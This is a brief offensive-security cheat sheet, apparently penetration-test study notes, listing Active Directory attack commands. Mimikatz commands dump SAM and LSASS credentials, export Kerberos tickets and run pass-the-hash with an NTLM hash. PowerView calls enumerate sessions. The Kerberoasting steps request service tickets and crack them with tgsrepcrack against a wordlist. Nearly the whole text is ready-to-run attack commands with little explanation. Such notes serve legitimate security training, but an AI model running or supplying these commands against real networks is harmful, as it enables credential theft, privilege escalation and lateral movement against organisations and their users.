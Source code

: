 Mimikatz

```
mimikatz.exe
privilege::debug
token::elevate
lsadump::sam
sekurlsa::logonpasswords
sekurlsa::tickets
sekurlsa::tickets /export


privilege::debug
sekurlsa::minidump C:\Users\raj\Desktop\lsass.DMP
sekurlsa::logonpasswords

sekurlsa::pth /user:daisy /domain:xor.com /ntlm:f6084ca1a4905c45747d4bdcc1fcab84 /run:PowerShell.exe

kerberos::ask /target:<SPN> MSSQLSvc/xor-app23.xor.com:1433
standard::base64
kerberos::list /export

```
Get a list of SPNs:

```
/usr/share/kerberoast/GetUserSPNs.ps1
```
Get PowerView.ps1 from powersploit.

Import-Module .\PowerView.ps1
Get-NetLoggedon -ComputerName client251
Get-NetSession -ComputerName dc01


From PowerShell, we can use the KerberosRequestorSecurityToken class to request the service ticket. We can call the KerberosRequestorSecurityToken constructor by specifying the SPN with the - ArgumentList option

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/xor-app23.xor.com:1433"

klist
```
crack password

```
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000- Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi

```